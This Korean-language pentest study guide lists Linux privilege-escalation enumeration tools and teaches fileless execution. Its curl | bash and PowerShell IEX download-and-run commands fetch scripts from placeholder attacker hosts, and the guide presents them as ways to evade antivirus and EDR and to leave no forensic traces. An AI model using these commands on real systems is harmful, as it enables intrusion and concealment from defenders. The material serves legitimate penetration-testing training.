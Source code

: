 

# Linux 자동화 정보 수집 및 스텔스 실행 가이드

Linux 권한 상승의 첫 단계는 시스템의 설정 오류나 취약점을 찾는 것입니다. 자동화된 정보 수집 스크립트는 이 과정을 대폭 단축시켜주며, 시스템의 전반적인 보안 상태를 빠르게 파악하는 데 매우 유용합니다.

이 문서는 주요 자동화 도구와 함께, 공격 흔적을 최소화하는 고급 실행 기법을 소개합니다.

https://0xy37.medium.com/linux-pe-cheatsheet-oscp-prep-9affaebd0f0e

---

### **1. 주요 자동화 정보 수집 도구**

다음은 Linux 권한 상승 벡터를 찾는 데 가장 널리 사용되는 스크립트들입니다.

- **LinPEAS (Linux Privilege Escalation Awesome Script)**
  - **[GitHub 링크](https://github.com/peass-ng/PEASS-ng)**
  - **설명:** 가장 유명하고 강력한 도구 중 하나입니다. 시스템의 거의 모든 정보를 다채로운 색상으로 구분하여 출력해주므로, 취약점을 한눈에 파악하기 좋습니다. SUID 파일, Cron 작업, 열린 포트, 버전 정보 등 방대한 정보를 수집합니다.

- **LinEnum**
  - **[GitHub 링크](https://github.com/rebootuser/LinEnum)**
  - **설명:** 오래전부터 사용되어 온 신뢰성 있는 스크립트입니다. 시스템 정보, 사용자 정보, 커널 및 서비스 버전 등을 체계적으로 스캔하고 보고서를 생성합니다.

- **LSE (Linux Smart Enumeration)**
  - **[GitHub 링크](https://github.com/diego-treitos/linux-smart-enumeration)**
  - **설명:** 수집된 정보의 중요도에 따라 색상을 다르게 표시하여, 권한 상승과 직결될 가능성이 높은 항목을 쉽게 식별할 수 있도록 도와줍니다.

- **LES (Linux Exploit Suggester)**
  - **[GitHub 링크](https://github.com/The-Z-Labs/linux-exploit-suggester)**
  - **설명:** 시스템의 커널 버전을 기반으로, 공개적으로 알려진 커널 익스플로잇(Exploit) 목록과 그 가능성을 제시해주는 데 특화된 도구입니다.

---

### **2. 파일리스 인메모리 실행 (Fileless In-Memory Execution)**

보안이 강화된 시스템에서는 디스크에 파일을 생성하는 행위 자체가 탐지될 수 있습니다. **인메모리 실행**은 스크립트를 디스크에 저장하지 않고, 네트워크를 통해 직접 메모리로 로드하여 실행하는 고급 스텔스 기법입니다.

#### **`curl | bash`: 공격 흔적 최소화 기법**

- **사용 목적:**
  - **탐지 회피:** 백신(AV)이나 EDR의 파일 기반 정적 분석을 우회합니다.
  - **흔적 최소화:** 시스템에 공격 스크립트 파일(Artifact)을 남기지 않아 포렌식 분석을 어렵게 만듭니다.

- **동작 원리:**
  1. **`curl [URL]`**: 지정된 URL에서 스크립트의 **내용**을 다운로드하여 **표준 출력(stdout)**으로 화면에 내보냅니다.
  2. **`|` (파이프)**: `curl`의 표준 출력을 가로채서, 다음에 오는 `bash` 명령어의 **표준 입력(stdin)**으로 직접 전달합니다.
  3. **`bash`**: 파일이 아닌 표준 입력으로부터 스크립트 내용을 읽어, 메모리상에서 한 줄씩 즉시 실행합니다.

#### **실행 예시**

```bash title="hello.sh"
# hello.sh 내용
echo "Hello! This script was executed directly from memory."
```

```bash title="공격자: 웹 서버 실행"
# 공격자 머신(Kali)에 hello.sh를 위치시킨 후, 웹 서버를 실행
python3 -m http.server 80
```

```bash(title="타겟: LinPEAS 인메모리 실행")
# 타겟 시스템에서 curl을 이용해 스크립트를 다운로드하고, 그 내용을 파이프로 bash에 전달하여 바로 실행
curl -s http://<attacker_ip>/hello.sh | bash
```

#### **WinPEAS / LinPEAS 실행 예시**

실제 침투 테스트 상황에서는 권한 상승 정보 수집 스크립트인 `LinPEAS`(리눅스용)나 `WinPEAS`(윈도우용)를 실행할 때 이 기법이 널리 사용됩니다.

```bash title="Linux (LinPEAS 실행)"
# 공격자의 웹 서버에서 LinPEAS 스크립트를 받아 바로 실행
curl -s http://attacker-server.com/linpeas.sh | bash
```


```powershell title="Windows (WinPEAS 실행"
# PowerShell을 이용해 원격 스크립트를 다운로드하고 메모리에서 실행
# 윈도우에서는 bash 대신 PowerShell의 IEX (Invoke-Expression)를 사용하는 것이 일반적입니다. 원리는 동일합니다.
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker-server.com/winpeas.ps1')"
```

이 명령어는 `Net.WebClient` 객체를 사용해 원격 스크립트의 내용을 문자열로 다운로드한 후, `IEX`를 통해 해당 문자열을 PowerShell 코드로 즉시 실행합니다.


